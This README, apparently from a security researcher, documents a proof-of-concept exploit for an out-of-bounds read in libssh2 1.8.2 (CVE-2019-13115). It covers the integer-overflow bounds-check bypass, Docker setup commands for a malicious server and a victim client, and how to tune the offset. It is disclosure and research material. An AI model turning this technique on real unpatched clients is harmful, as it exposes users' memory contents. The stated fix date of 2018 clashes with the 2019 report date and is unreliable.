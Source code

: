 # Out-of-bounds read in libssh2 (CVE-2019-13115)

[libssh2](https://www.libssh2.org/) version 1.8.2 contains a remotely triggerable out-of-bounds read, potentially leading to information disclosure. I reported this bug to libssh2-security@haxx.se on 2019-03-28. It is fixed in version [1.9.0](https://www.libssh2.org/changes.html), released on 2018-06-20.

This directory contains a proof of concept exploit for the vulnerability. It uses [docker](https://www.docker.com/) to simulate two computers. The first is a server, running [openssh](https://www.openssh.com/) with some malicious source code modifications. The second is a client, running `libssh2`. When the client attempts to connect to server, the server sends back a malicious response which triggers a segmentation fault in the client.

I originally developed this proof of concept to highlight a vulnerability in an incorrectly implemented bounds checking function:

```
int _libssh2_check_length(struct string_buf *buf, size_t len)
{
    return ((int)(buf->dataptr - buf->data) <= (int)(buf->len - len)) ? 1 : 0;
}
```

The above code snippet is from revision [38bf7ce](https://github.com/libssh2/libssh2/blob/38bf7ce9ece3441dcf3a19f0befb5b491ed4adfa/src/misc.c#L814). The PoC works by making `len` greater than `buf->len + 0x80000000` so that the calculation of `(int)(buf->len - len)` overflows and becomes a very large positive number, thereby bypassing the bounds check and causing libssh2 to crash with a segmentation fault. However, I learned later that `_libssh2_check_length` was introduced on the main development branch after the release of version 1.8.2, so this vulnerable bounds check does not exist in version 1.8.2. Unfortunately, version 1.8.2 contains no bounds check whatsoever. This means that much smaller values of `len` can trigger an out-of-bounds read on version 1.8.2. If you are interested in experimenting with this, search for a variable named `evil_offset` in [`diff.txt`](server/home/diff.txt#L53) and change its value to something smaller.

## Network setup

Create a docker network bridge, to simulate a network with two separate computers.

```
docker network create -d bridge --subnet 172.18.0.0/16 libssh2-demo-network
```

## Server setup

Build the docker image:

```
docker build server -t libssh2-server --build-arg UID=`id -u`
```

Start the container:

```
docker run --rm --network libssh2-demo-network --ip=172.18.0.10 -i -t libssh2-server
```

Start the malicious ssh server:

```
sudo /usr/local/sbin/sshd  # password is x
```

## Client setup

Build the docker image:

```
docker build client -t libssh2-client --build-arg UID=`id -u`
```

Start the container:

```
docker run --rm --network libssh2-demo-network --ip=172.18.0.11 -i -t libssh2-client
```

If you want to be able to debug libssh2 with gdb, then you need to start the container with a few extra arguments:

```
docker run --rm --network libssh2-demo-network --ip=172.18.0.11 --cap-add=SYS_PTRACE --security-opt seccomp=unconfined -i -t libssh2-client
```

In the container, attempt to connect to the server:

```
cd ~/libssh2/example
./ssh2 172.18.0.10 hal x
```

This command crashes with a segmentation fault.

If you would like to debug libssh2 with gdb, then start it like this:

```
cd ~/libssh2/example/.libs
LD_LIBRARY_PATH="/home/victim/libssh2/src/.libs:$LD_LIBRARY_PATH" gdb --args ./ssh2 172.18.0.10 hal x
```
